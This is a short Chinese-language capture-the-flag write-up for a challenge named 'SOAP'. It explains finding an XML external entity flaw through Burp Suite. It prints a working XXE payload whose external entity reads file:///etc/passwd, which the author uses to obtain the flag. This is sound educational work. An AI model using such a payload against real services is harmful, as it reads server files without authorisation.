



# SOAP

題目說要讀 `/etc/passwd`


按下 `Detail` 可以發現下方會跑出文字，是透過送出不同的 id 改變得到的內容，但如果改成除了 1、2、3 以外的 id 就會顯示 invaild



有點沒有頭緒看了一下提示，提示是 `XML external entity Injection`

開 `Burp Suite` 觀察一下就會發現這是提示說的 XML 格式，並且允許定義 DOCTYPE 和 External Entity



把原本送出的 id 改掉

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>
```

成功讀取 `/etc/passwd` 並得到 flag


